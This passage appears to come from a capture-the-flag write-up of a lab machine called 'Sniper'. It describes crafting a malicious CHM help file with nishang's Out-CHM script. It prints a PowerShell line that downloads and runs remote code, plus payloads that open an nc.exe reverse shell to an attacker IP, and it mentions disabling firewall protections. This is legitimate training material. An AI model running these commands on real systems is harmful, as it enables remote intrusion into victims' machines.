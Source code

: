 <br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Maybe the attack vector is to **upload a malicious file in CHM format**, so I search in **Github** for a repository that allows me to create one, and after some research I find the **[nasbench PoC](https://gist.github.com/nasbench/953c5d34d720c50587e9948ee6d4f1b5){:target="_blank"}** based on the attacks performed by the **[North-Corean APT37](https://www.zscaler.com/blogs/security-research/unintentional-leak-glimpse-attack-vectors-apt37){:target="_blank"}**. I will need a **Windows virtual machine** to create my malicious file, then I just need to follow the instructions given in the **README.txt** of the repository. I must install **[HTML Help Workshop](https://web.archive.org/web/20200614044818if_/http://download.microsoft.com/download/0/a/9/0a939ef6-e31c-430f-a3df-dfae7960d564/htmlhelp.exe){:target="_blank"}** because I will need the `hhc.exe` binary, I also need to download the **[`Out-CHM.ps1` script](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1){:target="_blank"}** (after disabling some **Windows Firewall protection features**). Finally I can generate the file, with the payload I want, in this case I'm going to send a **Reverse Shell** to my attacker machine with `nc.exe`. I am going to create two files just in case, with different paths of `nc.exe`, many times I had permissions problems in different Windows paths.

> **[APT37](https://www.zscaler.com/blogs/security-research/unintentional-leak-glimpse-attack-vectors-apt37){:target="_blank"}** is a **North Korea-based advanced persistent threat actor** which primarily targets individuals in **South Korean organizations**.

> **[`Out-CHM.ps1` script](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1){:target="_blank"}**: The script generates a **CHM file** which needs to be sent to a target. You must have `hhc.exe` (**HTML Help Workshop**) on your machine to use this script. **HTML Help Workshop** is a free Microsoft Tool.

```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1')

Out-CHM -Payload "C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.9 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Out-CHM -Payload "C:\Users\Chris\Desktop\nc.exe -e cmd 10.10.14.9 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
# --> doc.chm         :)
```

<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
